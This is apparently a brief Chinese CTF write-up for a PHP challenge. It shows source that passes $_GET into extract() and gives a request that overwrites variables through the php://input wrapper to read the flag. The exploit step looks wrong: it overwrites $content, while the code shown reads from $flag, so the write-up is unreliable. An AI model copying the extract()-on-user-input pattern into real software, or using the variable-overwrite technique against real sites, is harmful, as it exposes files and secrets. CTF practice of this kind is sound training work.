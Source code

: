 # phptrick

## writeup

### step1

查看源码，可发现php文件的部分源码：
```php
<!--
    	index.php
    	<?php     
		$flag='xxx';     
		extract($_GET);     
		if(isset($gift)){        
		    $content=trim(file_get_contents($flag));
		    if($gift==$content){ 
		       echo'flag';     }
		     else{       
		       echo'flag被加密了 再加密一次就得到flag了';}   
		     } 
		?>
        -->
```

### step2

构造请求

index.php?gift=mdzz&content=php://input, post data 内容为mdzz即可获取rot13加密后的flag，解密即可。
